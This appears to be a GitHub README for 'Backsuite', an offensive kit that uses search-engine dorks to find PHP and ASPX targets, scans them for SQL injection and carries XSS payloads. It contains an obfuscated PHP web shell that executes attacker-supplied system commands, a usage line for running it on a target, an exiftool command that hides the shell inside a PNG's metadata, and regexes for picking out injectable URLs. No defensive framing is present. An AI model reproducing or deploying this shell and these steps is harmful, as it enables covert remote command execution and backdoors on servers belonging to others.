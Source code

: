 # Backsuite
 
 <ul>
  <li>[ &#x1F608;  ] Dorks with : google.com / yahoo.com / bing.com</li>
  <li>[ &#x1F52D;  ] Scope ending files : <b>php</b> / <b>aspx</b></li>
  <li>[ &#x1F489;  ] Scan : SQL Injection </li>
  <li>[ &#x1F4C4;  ] List of Syntax <I><b>[errors]</b></I> to detect an SQL injection  </li>
  <li>[ &#x274C;  ] Xss payloads   </li>
  <li>[ &#x1F50D;  ] SQL injection - Characters   </li>
</ul>


# Use <TARGET>/file.php?_=system&__=ls -la

SHELL = {`<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]);`}

##### Download <img height="33" width="33" src="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png"><a href="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png">Img<a> 

 `exiftool -Comment="SHELL __halt_compiler();" googleg_standard_color_128dp.png`

<hr>

###### Scope : only view x.php?x=x | and | x.aspx?x=x
`([.]+[aspxh]{3,4}[?]{1,1}[a-zA-Z0-9_-]{1,10}[=]{1,1})` 

###### Scope : only view ALL LINKS x.x?x= | x/x?x | /?x=x
`([?]{1,1}[a-zA-Z0-9\-_=]{1,10})`

###### Scope : only view x.php?x=x | and | x.aspx?x=x | and | x.php/aspx?x
`([.]+[aspxh]{3,4}[a-zA-Z0-9-\_.=?&]{1,50})`

###### Scope : only view x.php/aspx?x=x | x.php/aspx
`([.]+[aspxh]{3,4})`

###### Scope : view all / | x.php/aspx | x.php/aspx?x=x | /?x=x
`([a-z_.-][?-][a-z0-9+$%_.-])?`
